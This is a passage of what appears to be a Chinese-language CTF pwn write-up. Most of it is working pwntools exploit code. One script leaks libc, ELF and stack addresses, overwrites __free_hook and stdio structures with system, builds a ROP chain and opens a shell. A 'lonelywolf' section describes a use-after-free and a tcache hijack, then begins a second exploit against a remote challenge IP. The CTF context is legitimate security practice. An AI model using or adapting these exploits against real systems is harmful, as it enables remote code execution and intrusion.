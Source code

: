 ```
def exp():
    write(256, None)
    write(256, None)
    read(b'\xf8\xff\xff\xff\xff\xff\xff\xff')
    stdout_leak = int(b'0x' + p.recvuntil(b'\n', drop = True), 16)
    libc_base = stdout_leak - libc.sym['_IO_2_1_stdout_']
    log.success('libc base: ' + hex(libc_base))
    read(b'\xf5\xff\xff\xff\xff\xff\xff\xff')
    elf_leak = int(b'0x' + p.recvuntil(b'\n', drop = True), 16)
    elf_base = elf_leak - 0x202008
    log.success('elf base: ' + hex(elf_base))
    write((libc_base - (elf_base + 0x202060) + libc.sym['_IO_2_1_stderr_'])//8, b'/bin/sh\x00')
    write((libc_base - (elf_base + 0x202060) + libc.sym['_IO_2_1_stderr_'] + 0x28)//8, p64(libc_base + libc.sym['system']))
    read(p64((libc_base - (elf_base + 0x202060) + libc.sym['__environ'])//8))
    stack_leak = int(b'0x' + p.recvuntil(b'\n', drop = True), 16)
    log.info('stack leak: ' + hex(stack_leak))
    write((libc_base - (elf_base + 0x202060) + libc.sym['__free_hook'])//8, b'/bin/sh\x00')

    write((stack_leak - (elf_base + 0x202060) - 0x120 + 0x8)//8, p64(libc_base + libc.sym['__free_hook']))
    write((stack_leak - (elf_base + 0x202060) - 0x120 + 0x10)//8, p64(libc_base + libc.search(asm('pop rdi ; pop rbp ; ret')).__next__()))
    write((stack_leak - (elf_base + 0x202060) - 0x120 + 0x18)//8, p64(libc_base + libc.sym['__free_hook']))
    write((stack_leak - (elf_base + 0x202060) - 0x120 + 0x20)//8, p64(libc_base + libc.sym['system']))
    write((stack_leak - (elf_base + 0x202060) - 0x120 + 0x28)//8, p64(libc_base + libc.sym['system']))

    write((stack_leak - (elf_base + 0x202060) - 0x120)//8, p64(libc_base + libc.search(asm('pop rdi ; ret')).__next__()))

    p.interactive()

if __name__ == '__main__':
    exp() 
```

## lonelywolf | Done

比较明显地有一个 UAF

功能都比较全（指比较白给）

新版 libc2.27，有 double free 检测，~~考虑 tcache stash 机制绕过~~想了想没有必要，直接 edit 去掉 key 就完事了

限制size，考虑直接劫持 tcache struct，改free hook 为 system，👴老套板子做题人了

```
 from pwn import *
context.log_level = 'debug'
p_name = './lonelywolf'
p = remote('124.71.239.124', 21599)
e = ELF(p_name)
libc = ELF('./libc-2.27.so')

def cmd(command:int):
    p.recvuntil(b"Your choice: ")
    p.sendline(str(command).encode())

def new(size:int):
    cmd(1)
    p.recvuntil(b"Index: ")
    p.sendline(b'0')
```